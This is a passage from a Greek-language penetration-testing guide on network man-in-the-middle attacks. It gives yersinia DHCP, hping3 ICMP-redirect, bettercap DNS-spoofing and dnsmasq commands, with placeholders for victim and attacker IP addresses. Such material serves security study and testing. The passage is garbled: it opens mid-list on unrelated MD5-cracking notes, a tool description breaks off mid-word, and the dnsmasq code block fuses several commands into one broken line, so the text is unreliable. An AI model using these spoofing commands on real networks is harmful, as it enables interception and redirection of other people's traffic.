 - **Καταγραφή και Αποκρυπτογράφηση των Κατακερματισμένων Τιμών MD5:** Χρησιμοποιούνται εργαλεία όπως το Loki και το John the Ripper για αυτόν τον σκοπό.
- **Ρύθμιση Παραμέτρων Διαδρομής:** Αυτό γίνεται μέσω της καρτέλας _Injection_.
- **Ορισμός του Παραβιασμένου Κλειδιού:** Το κλειδί ρυθμίζεται στην καρτέλα _Connection_.

### Άλλα Γενικά Εργαλεία & Πηγές

* [**Above**](https://github.com/c4s73r/Above): Εργαλείο για σάρωση της κίνησης του δικτύου και εντοπισμό ευπάθει
```bash
Ettercap
yersinia dhcp -attack 2 #More parameters are needed
```
### ARP Spoofing

Ελέγξτε την [προηγούμενη ενότητα](./#arp-spoofing).

### ICMPRedirect

Το ICMP Redirect αποτελείται από την αποστολή ενός πακέτου ICMP τύπου 1 κωδικού 5 που υποδεικνύει ότι ο επιτιθέμενος είναι ο καλύτερος τρόπος για να φτάσει σε ένα IP. Έπειτα, όταν θέλει ο θύμα να επικοινωνήσει με το IP, θα στείλει το πακέτο μέσω του επιτιθέμενου.
```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```
### DNS Spoofing

Ο επιτιθέμενος θα ανακατευθύνει την ανάλυση ονομάτων τομέων (DNS) για ορισμένους (ή όλους) τους τομείς που ζητά ο θύμα.
```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```
**Διαμορφώστε τον δικό σας DNS με το dnsmasq**

Ο dnsmasq είναι ένα εργαλείο που μπορεί να χρησιμοποιηθεί για να διαμορφώσετε τον δικό σας DNS server στο σύστημά σας. Αυτό σας επιτρέπει να ελέγχετε την αντιστοίχιση ονομάτων υπολογιστών με διευθύνσεις IP και να προσθέτετε προσαρμοσμένες κανόνες για την ανακατεύθυνση της κίνησης του δικτύου.

Για να διαμορφώσετε τον δικό σας DNS server με το dnsmasq, ακολουθήστε τα παρακάτω βήματα:

1. Εγκαταστήστε το πακέτο dnsmasq στο σύστημά σας.
2. Ανοίξτε το αρχείο διαμόρφωσης του dnsmasq (συνήθως βρίσκεται στο `/etc/dnsmasq.conf`) και επεξεργαστείτε τις απαραίτητες ρυθμίσεις.
3. Ορίστε τον DNS server που θέλετε να χρησιμοποιείτε για τις εξωτερικές αναζητήσεις DNS.
4. Προσθέστε τις αντιστοιχίες ονομάτων υπολογιστών και διευθύνσεων IP που θέλετε να ελέγχετε.
5. Αποθηκεύστε και κλείστε το αρχείο διαμόρφωσης.
6. Επανεκκινήστε την υπηρεσία dnsmasq για να εφαρμοστούν οι αλλαγές.

Αφού ολοκληρώσετε αυτά τα βήματα, ο δικός σας DNS server με το dnsmasq θα είναι εγκατεστημένος και διαμορφωμένος στο σύστημά σας. Μπορείτε τώρα να χρησιμοποιήσετε αυτόν τον DNS server για τις αναζητήσεις DNS στο δίκτυό σας.
```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```
### Τοπικές Πύλες
